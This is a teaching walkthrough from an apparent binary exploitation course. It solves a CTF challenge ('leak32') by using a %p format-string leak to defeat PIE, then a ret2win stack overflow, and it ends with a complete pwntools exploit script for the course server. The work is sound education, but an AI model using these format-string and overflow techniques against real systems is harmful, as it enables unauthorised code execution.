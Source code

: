 ```yaml
---
description: Using a format string to leak an address.
---
```


# leak32

{% file src="../../.gitbook/assets/leak32.zip" %}

In this case, we won't be provided a leak. Instead, we must combine how we used format strings and find our own leak. Solving this challenge will be remarkably similar to how we solve canary challenges, so be sure you're confident in Sections 0x3 and 0x4 before moving on.

### Static Analysis

PIE is indeed enabled, and there is no canary:

```bash
$ checksec ./leak32
[*] '/home/joybuzzer/Documents/vunrotc/public/binex/06-pie/leak32/src/leak32'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

We'll move straight to the `read_in` function. You can verify that `main` and `win` haven't changed. This code is actually the same as one of the canary challenges, replacing the canary with PIE. We'll see that it doesn't change our exploit that much.

Here is the source code for `read_in`. This was collected straight from `gdb`, so please ensure you're confident doing this.

```c
void read_in()
{
    puts("What's your name?");
    gets(ebp-0x30);
    
    printf("Nice to meet you ");
    printf(ebp-0x30);
    putchar(0xa);   // newline
    
    printf("What's your message?");
    gets(ebp-0x30);
    
    return;
}
```

We'll use a format string against the first input. Let's test what happens when we do that to see what addresses get printed. In this case, because we are looking for addresses, we use `%p` instead of `%x`:

```bash
$ ./leak32
What's your name?
%p %p %p %p %p %p %p %p
Nice to meet you (nil) 0x1000000 0x566301f9 0xf7ee2540 (nil) 0x25207025 0x70252070 0x20702520
What's your message?
```

The only item here that looks like an address is `0x566301f9`. `0xf7ee2540` a far away instruction or a stack address, so it's not as helpful. We'll check both just to be sure our intuition is correct.

{% hint style="warning" %}
When using breakpoints on a binary with PIE enabled, they **must** be an offset from a known function. Addressing based on what you see in `disas read_in` won't work. Use something like `disas *(read_in+8)`.
{% endhint %}

Also, we can't check _those_ specific addresses because PIE is enabled. We need to check the addresses shown on each specific run. To do this, put a breakpoint at the vulnerable `printf` call and check the stack.

{% tabs %}
{% tab title="GDB" %}
```as
gef➤  x/10wx $esp
0xffffd580:	0xffffd598	0x00000000	0x01000000	0x565561f9
0xffffd590:	0xf7fc4540	0x00000000	0x25207025	0x70252070
0xffffd5a0:	0x20702520	0x25207025
```
{% endtab %}

{% tab title="Radare2" %}

{% endtab %}
{% endtabs %}

The first address is the address of the format string. We start counting from the second item (which reads `(nil)` in the standard output). We want the third and fourth options, which also have the same high bytes.

{% tabs %}
{% tab title="GDB" %}
```as
gef➤  x/wx 0x565561f9
0x565561f9 <read_in+12>:	0x2dc7c381
gef➤  x/wx 0xf7fc4540
0xf7fc4540 <__kernel_vsyscall>:	0x89555251
```
{% endtab %}

{% tab title="Radare2" %}

{% endtab %}
{% endtabs %}

Aha! The third value resolves to `read_in + 12`, which happens to be the base pointer for `read_in`. The fourth value resolves to `__kernel_vsyscall`, which is a function in the kernel. The first one is more useful, so we use that.

### Exploitation

We'll use a very similar exploit to the previous binary, just accounting for how we will receive the leak.

We'll start by establishing the binary and process:

```python
elf = context.binary = ELF('./leak32')
p = remote('vunrotc.cole-ellis.com', 7200)
```

Then, we need to receive the leak. We'll receive the third format string parameter, which we know is at `read_in + 12`. From there, we'll compute `elf.address`:

```python
p.sendline(b'%3$p')
p.recvuntil(b'Nice to meet you ')
leak = int(p.recvline().strip(), 16)
elf.address = leak - (elf.sym.read_in + 12)
```

Now, we can build the payload. It's a simple ret2win from here!

```python
payload = b'A' * 0x34
payload += p32(elf.sym.win)
```

Finally, we send the payload.

```python
p.recvuntil(b'message?')
p.sendline(payload)
p.interactive()
```

This gets us the flag! Here is the full exploit:

{% code title="exploit.py" lineNumbers="true" %}
```python
from pwn import *

elf = context.binary = ELF('./leak32')
p = remote('vunrotc.cole-ellis.com', 7200)

p.recvline()

p.sendline(b'%3$p')
p.recvuntil(b'Nice to meet you ')
leak = int(p.recvline().strip(), 16)
elf.address = leak - (elf.sym.read_in + 12)

payload = b'A' * 0x34
payload += p32(elf.sym.win)

p.recvuntil(b'message?')
p.sendline(payload)
p.interactive()
```
{% endcode %}